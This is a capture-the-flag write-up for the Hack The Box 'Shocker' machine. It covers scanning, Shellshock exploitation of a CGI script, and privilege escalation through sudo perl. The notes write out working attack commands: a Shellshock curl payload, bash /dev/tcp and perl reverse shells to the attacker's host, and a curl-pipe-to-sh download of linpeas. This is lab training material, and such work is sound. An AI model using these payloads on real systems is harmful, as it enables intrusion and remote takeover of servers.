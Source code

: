 #Shellshoc

# Reconnaissance

```bash
# Automatic tools
# nmapAutomator (https://github.com/21y4d/nmapAutomator)
cd /usr/local/bin/
sudo ./nmapAutomator.sh --host 10.10.10.56 --type All
# Nmap
nmap -sV -sC -A 10.10.10.56 -Pn
```

```txt
┌──(kali㉿kali)-[~/Desktop/HackTheBox/Shocker]
└─$ nmap -sV -sC -A 10.10.10.56 -Pn

Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-05 17:44 CST
Nmap scan report for 10.10.10.56
Host is up (0.24s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.65 seconds

```
# Enumeration
## Enumerate 80 http

we will see there is an HTTP service on that port.

![[Shocker-1.png]]

we try use gobuster to enumerate the folder.

```bash
# small list
gobuster dir -e -u http://10.10.10.56 -w /usr/share/wordlists/dirb/big.txt -t 20
# if small list found nothing, try biglist
gobuster dir -e -u http://10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20
```

```txt
┌──(kali㉿kali)-[~/Desktop/HackTheBox/Shocker]
└─$ gobuster dir -e -u http://10.10.10.56 -w /usr/share/wordlists/dirb/big.txt -t 20

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
2022/06/05 18:00:28 Starting gobuster in directory enumeration mode
===============================================================
http://10.10.10.56/.htaccess            (Status: 403) [Size: 295]
http://10.10.10.56/.htpasswd            (Status: 403) [Size: 295]
http://10.10.10.56/cgi-bin/             (Status: 403) [Size: 294]
http://10.10.10.56/server-status        (Status: 403) [Size: 299]
                                                                 
===============================================================
2022/06/05 18:06:00 Finished
===============================================================
```

The cgi-bin folder is an indication that the system could be vulnerable to Shellshock. Fuzzing for the extensions cgi, sh, pl, py get us the following results.

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271

Running another Gobuster scan against cgi-bin user.sh is found:

```bash
gobuster dir -e -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -x cgi,py,pl,php,sh
# output
http://10.10.10.56/cgi-bin/user.sh
```

![[Shocker-2.png]]

then we download http://10.10.10.56/cgi-bin/user.sh and check the contents

```bash
wget http://10.10.10.56/cgi-bin/user.sh
cat user.sh
```

```txt
Content-Type: text/plain

Just an uptime test script

 11:42:57 up  6:08,  0 users,  load average: 0.02, 0.02, 0.00

```

## Enumerate 2222 ssh

```bash
searchsploit 7.2p2
```

we didn't find any useful information.

# Exploitation
## Exploit on shellshock
Shellhock is a Linux security vulnerability that could enable an attacker to cause Bash to execute arbitrary commands and gain unauthorized access to many Internet-facing services, such as web servers, that use Bash to process requests. 

https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf

one-liner exploit 
```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'id'" http://10.10.10.56/cgi-bin/user.sh
```

![[Shocker-6.png]]

Using SearchSploit to find Shellshock-related explotis:

```bash
searchsploit shellshock
searchsploit -m 34900 
```

And run the exploit

```bash
python 34900.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.11 lport=3333
```

![[Shocker-3.png]]

Running the script with the required parameters (payload, rhost, lhost and lport), the script is run against a number of common directories and scripts.

But we didn't get the shell. Why? Do you remember cgi-bin/user.sh file? Let's try alter the exploit python script by add /cgi-bin/user.sh

```python
# original
pages = ["/cgi-sys/entropysearch.cgi","/cgi-sys/defaultwebpage.cgi","/cgi-mod/index.cgi","/cgi-bin/test.cgi","/cgi-bin-sdb/printenv"]
# new
pages = ["/cgi-sys/entropysearch.cgi","/cgi-sys/defaultwebpage.cgi","/cgi-mod/index.cgi","/cgi-bin/test.cgi","/cgi-bin-sdb/printenv","/cgi-bin/user.sh"]
```

And exploit the machine again, we get the shell !
```bash
python 34900.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.11 lport=3333
```
```bash
whoami
hostname
ifconfig
```

![[Shocker-4.png]]

## Get the user flag

```bash
cat /home/shelly/user.txt
# flag
2ec24e11320026d1e70ff3e16695b233
```

![[Shocker-5.png]]

## Shell Upgrade
We have got a shell let us upgrade it to fully qualified Linux shell so that we can run more **advanced Linux command** on it.

we create a another reverse shell, by google "reverse shell cheat sheet"

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

```bash
nc -lvp 4444 
bash -i >& /dev/tcp/10.10.14.12/4444 0>&1
```
![[Shocker-8.png]]


# Privilege Escalation
## Privesc by linpeas.sh
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
```bash
# donwload to kali linux
wget "https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh" -O linpeas.sh
# build up http server
python3 -m http.server 80
# download linpeas.sh from kali and pipe to run with bash
cd /home/shelly
curl 10.10.14.12/linpeas.sh | sh
```
![[Shocker-9.png]]

![[Shocker-10.png]]
we will find shelly could run /usr/bin/perl as root user:

```bash
User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

we know we are in shelly user now, so we try create a another perl reverse shell to our kali machine.

```bash
nc -vlp 1234
# create perl reverse shell
sudo perl -e 'use Socket;$i="10.10.14.12";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Get the root flag
```bash
whoami
cat /root/root.txt
# flag
52c2715605d70c7619030560dc1ca467
```
![[Shocker-13.png]]
![[Shocker-11.png]]